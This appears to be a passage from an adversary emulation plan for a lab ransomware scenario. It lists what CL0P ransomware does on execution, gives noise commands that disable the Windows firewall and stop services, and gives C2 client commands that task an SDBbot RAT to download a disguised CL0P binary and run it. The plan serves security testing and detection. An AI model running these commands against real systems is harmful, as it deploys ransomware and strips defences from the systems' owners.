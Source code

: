 The attacker will then use SDBbot to ingress and execute the CL0P ransomware on
`diagonalley (10.55.4.21)`. On execution, CL0P will perform the following actions:

* Discover the keyboard layout to check the language and retrieve the font used
by the system
* Delete shadow copies and resize shadow storage
* Disable boot recovery options
* Stop various services
* Stop various processes
* Enumerate logical drives and files
* Suppress error dialogues and encrypt files using AES, appending the `.C_I0p`
extension to encrypted files
* Leave ransom notes in affected folders
* Clear Windows Event Logs
* Delete itself on completion

### :loud_sound: Noise

The following noise activity is executed:

* User will execute at Command Prompt
  * `cmd.exe executed systeminfo | findstr /B /C:'System Locale'`
  * `cmd.exe executed netsh advfirewall set allprofiles state off`

* User will execute PowerShell commands
  * `Get-WmiObject -Class Win32_Service | Where-Object {{}$_.State -eq \"Running\"{}} | Format-Table`
  * `Stop-Service -Name Bluetooth{TAB}`
  * `Stop-Service -Name BTAGService`
  * `Stop-Service -Name OneSync{TAB}`
  * `Stop-Service -Name XblGameSave`
  * `Stop-Service -Name WbioSrvc`
  * `Get-WinSystemLocale`

### :biohazard: Procedures

* From the Kali attack host `corsair (223.246.0.70)`, task the SDBbot RAT to ingress
the CL0P executable

    ```bash
    ./evalsC2client.py --set-task 0x0000000F '{"id":"download", "payload":"main.exe", "arg":"C:\\Windows\\System32\\SysMonitor.exe"}'
    ```

* Task the SDBbot RAT to execute CL0P

    ```bash
    ./evalsC2client.py --set-task 0x0000000F '{"id":"execute", "arg":"C:\\Windows\\System32\\SysMonitor.exe"}'
    ```

* Allow 5-10 minutes for CL0P to finish running.

* :camera: Screenshot the result of CL0P execution from the C2 server output.

### :mag: Reference Code & Reporting
